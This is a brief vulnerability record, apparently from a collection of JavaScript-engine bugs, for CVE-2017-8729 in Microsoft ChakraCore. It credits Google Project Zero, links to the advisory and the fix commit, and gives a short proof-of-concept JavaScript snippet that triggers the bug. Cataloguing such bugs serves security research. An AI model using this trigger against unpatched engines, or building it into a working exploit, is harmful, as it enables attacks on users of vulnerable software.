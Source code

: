 # CVE-2017-8729

- Fix: Sep 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f() {
    ({
        a: {
            b = 0x1111,
            c = 0x2222,
        }.c = 0x3333
    } = {});
}

f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8729)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1308)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/ed6dd45f47b3b46a8a390a50a8e1d1252feab1a0)

